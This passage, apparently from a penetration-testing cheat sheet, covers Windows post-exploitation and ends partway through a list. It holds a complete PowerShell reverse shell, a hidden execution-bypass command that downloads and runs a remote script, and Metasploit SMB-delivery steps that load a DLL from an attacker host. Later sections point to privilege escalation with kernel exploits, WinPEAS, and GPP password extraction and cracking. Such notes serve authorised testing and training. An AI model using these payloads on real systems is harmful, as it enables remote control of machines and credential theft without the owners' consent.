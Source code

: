 ```
$client = New-Object System.Net.Sockets.TCPClient('192.168.219.xxx',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PSReverseShell# ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}$client.Close();
```

* launch on target
```
powershell.exe -NoP -NonI -W Hidden -Exec Bypass "IEX(New-Object Net.WebClient).downloadString('http://192.168.219.xxx/raw.ps1')"
```


## Meterpreter
This shell works even on Windows 11 but needs MSF

1. SMB delivery: `use windows/smb/smb/delivery`
2. Payload: `set payload windows/meterpreter/reverse_tcp`
3. Configure all options in MSF and `exploit`
4. During exploit execution MSF will ask you to run following on target machine: `rundll32.exe \\attacker_ip\PJSK\test.dll,0`
5. Select active session
6. Get shell: `shell`


# Escalation


## Kernel exploits

see https://github.com/jonnyzar/windows-kernel-exploits



## Standard Approach
* Download Winpeas: see github
* Follow HackTricks: https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
* If it does not help, go for advances techniques



## Exposed GPP Password

* impacket-Get-GPPPassword to get password
* gp3finder.py to crack password


## Compiling Exploits for Windows on Kali

1. install mingw `apt install mingw-w64`
2. Compile for 64 bit
